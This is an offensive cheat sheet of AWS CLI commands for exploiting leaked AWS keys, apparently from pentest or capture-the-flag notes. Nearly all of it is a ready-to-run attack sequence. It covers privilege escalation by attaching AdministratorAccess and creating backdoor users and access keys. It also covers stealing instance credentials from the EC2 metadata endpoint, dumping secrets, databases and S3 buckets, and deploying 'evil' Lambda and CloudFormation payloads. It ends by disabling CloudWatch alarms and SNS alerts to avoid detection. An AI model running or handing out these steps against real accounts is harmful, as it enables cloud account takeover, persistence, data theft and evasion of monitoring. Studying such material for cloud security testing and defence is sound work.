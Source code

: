 So you found some aws keys...



## Caller id
who is me
```
aws sts get-caller-identity
```

## List, show stuff
```
aws ec2 describe-instances
aws s3 ls
aws s3api list-buckets
aws iam list-users
aws iam list-roles
aws iam list-groups-for-user --user-name user-example
aws iam list-group-policies --group-name Admins
...
```
## List (attached) policies
```
aws iam list-attached-role-policies --role-name ad-example
aws iam list-attached-user-policies --user-name user-example
aws iam list-user-policies --user-name user-example
```

## Get policies
There are managed policies and inline policies, see [here](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html).
Check especially for inline policies and everything custom, as these are likly candidates for excessive permissions and priv esc
```
aws iam get-policy --policy-arn ...
aws iam get-user-policy --user-name user-example --policy-name ...
aws iam get-policy-version --policy-arn ... --version-id v1
aws iam get-role-policy --role-name ... --policy-name ...
```

## Attach a policy
attach aws managed all admin policies
```
aws iam attach-user-policy --user-name user-example --policy-arn ...
aws iam attach-user-policy --user-name user-example --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam attach-group-policy --group-name developer --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

## Add policy
add custom policy .json to group, role (needs your own policy file obviously)
```
aws iam create-policy-version --policy-arn arn:aws:iam::666666666666:policy/Print --policy-document file:///.../newAdminPolicy.json --set-as-default
aws iam put-group-policy --group-name Admins --policy-document file:///.../newAdminPolicy.json --policy-name AdminRoot
aws iam put-role-policy --role-name developerlambda --policy-name AdminMeow --policy-document file:///.../newAdminPolicy.json      
```

## Role policy
```
aws iam list-role-policies --role-name admin
aws iam get-role-policy --role-name admin --policy-name AddUser
```

## Assume role
[Assuming direct control](https://www.youtube.com/watch?v=p3h8ZnXLsRg)
```
aws sts assume-role --role-arn arn:aws:iam::666666666666:role/ad-example --role-session-name ad-example
```
This is my favorite cheetsheet on the whole citadel

## Search for adminstuff
```
aws iam list-policies | grep 'AdministratorAccess'  
```

## Add user to group, create user, change login
```
aws iam add-user-to-group --group-name developer --user-name kevin
aws iam create-login-profile --user-name mandy --password compliance123! --no-password-reset-required
aws iam create-user --user-name backdoorbeaver
aws iam create-access-key --user-name Bob
```

## EC2, list, deploy, secu group

```
aws ec2 describe-subnets
aws ec2 describe-security-groups
aws iam list-instance-profiles

aws ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available' --output json | jq -r '.Images | sort_by(.CreationDate) | last(.[]).ImageId'

aws ec2 run-instances --subnet-id subnet-.... --image-id ami-... --iam-instance-profile Name=ec2_admin --instance-type t2.micro --security-group-ids "sg-..."
aws ec2 authorize-security-group-ingress --group-id ... --protocol tcp --port 22 --cidr 0.0.0.0
```

## EC2 inside, meta-data, user thingy in scripts
```
curl http://169.254.169.254/latest/meta-data
curl http://169.254.169.254/latest/user-data
```

## EC2 inside, get key example from ec2-instance
```
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

## EC2 key gen
```
aws ec2 create-key-pair --key-name nyankey --query 'KeyMaterial' --output text | out-file -encoding ascii -filepath nyankey.pem
chmod 400 mighty.pem
```

## Dynamodb
```
aws dynamodb list-tables | jq -r .TableNames[]
aws dynamodb scan --table-name secrettable-233223 --region us-east-1
```

## Secret
```
aws secretsmanager get-secret-value --secret-id ...--region
```

## S3
list buckets, get objects, acl and policy
```
aws s3 ls
aws s3api list-buckets
aws s3 sync s3://user-resources-12jljlaj3434ljalsjf/ ./
aws s3api list-objects --bucket ...
aws s3 --no-sign-request --region ap-southeast-1 ls s3://static-resources-example
aws s3api get-bucket-policy --bucket ... --output text | python -m json.tool
aws s3api get-bucket-acl --bucket ... > acl.json
aws s3api get-object-acl --bucket ... --key secret_object > object.json

```
## S3 add policy, acl
add your own policy or acl file to bucket/object
```
aws s3api put-bucket-policy --bucket ... --policy file://policy.json
aws s3api put-object-acl --bucket ... --key secret_object --access-control-policy file://object.json
aws s3api put-bucket-acl --bucket --access-control-policy file://acl.json
```

## API-Gateway
list, show rest-api, ressources method and key
```
aws apigateway get-account
aws apigateway get-rest-apis
aws apigateway get-api-keys
aws apigateway get-api-key --api-key ... --include-value
aws apigateway get-ressources --rest-api-id ...
aws apigateway get-method --rest-api-id ... --http-method GET --ressource-id ...
```

## Lambda
```
aws lambda list-functions
aws lambda get-function --function-name DynamoFunction  
aws lambda get-policy --function-name pawsitivty
```

## Lambda deploy own
Create your own evil lambda function and invoke, check [here](https://docs.aws.amazon.com/lambda/latest/dg/gettingstarted-awscli.html) for how to
```
aws lambda create-function --function-name Ishimura --zip-file fileb://Ishimura.zip --handler index.handler --runtime nodejs18.x --role arn:aws:iam::666666666666:role/lambda-ex
aws lambda invoke --function-name Ishimura marker.txt
```

## Cloudformation
```
aws cloudformation list-stack-resources --stack-name weatherman
aws cloudformation describe-stack-events --stack-name intensification90
aws cloudformation get-template --stack-name stackmanfred

```
## Cloudformation deploy
```
aws cloudformation validate-template --template-body file://evil.yaml
aws cloudformation create-stack --template-body file://evil.yaml --stack-name stolenstack --parameters ParameterKey=uri,ParameterValue=$uri --output text
aws cloudformation describe-stacks --stack-name stolenstack  --query Stacks[*].Outputs --output text
aws cloudformation delete-stack --stack-name stolenstack --output text
```

## Wiuuu Wiuuu cloudwatch, sns
If there are alarms monitoring in cloudwatch, sns and you have permissions, identify and if needed deactivate them. 
```
aws cloudwatch describe-alarms --alarm-names "soundofdapolice"
aws sns list-topics
aws sns list-subscriptions
```
## Less Wiuu Wiuu
```
aws cloudwatch disable-alarm-actions --alarm-names soundofdapolice
aws cloudwatch describe-alarm-history --alarm-name "iamshadow" --history-item-type StateUpdate
aws sns unsubscribe --subscription-arn arn:aws:sns:us-west-2:666666666666:my-topic:somerandomstring
```

